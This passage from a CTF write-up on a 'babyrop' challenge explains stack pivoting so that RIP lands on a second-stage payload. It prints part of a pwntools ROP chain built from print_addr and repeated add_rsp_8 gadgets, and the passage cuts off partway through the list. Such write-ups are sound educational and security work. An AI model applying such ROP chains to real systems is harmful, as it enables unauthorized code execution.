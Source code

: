 This occurs because print's internal calls overwrite the payload body. To overcome this, RIP should land on a specific value. To properly set the RIP value, we need to manipulate the RSP value to higher addresses.


After some tries, the RIP value successfully landed beginning of the `second_stage_payload` .

![Pasted image 20250717011046](assets/images/SmileyCTF-babyrop/Pasted%20image%2020250717011046.png)

The payload shared below,

```python
second_stage_payload = flat({
    0: 0x4949494949494949,
    0x20:[
        print_addr+0x20,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
```
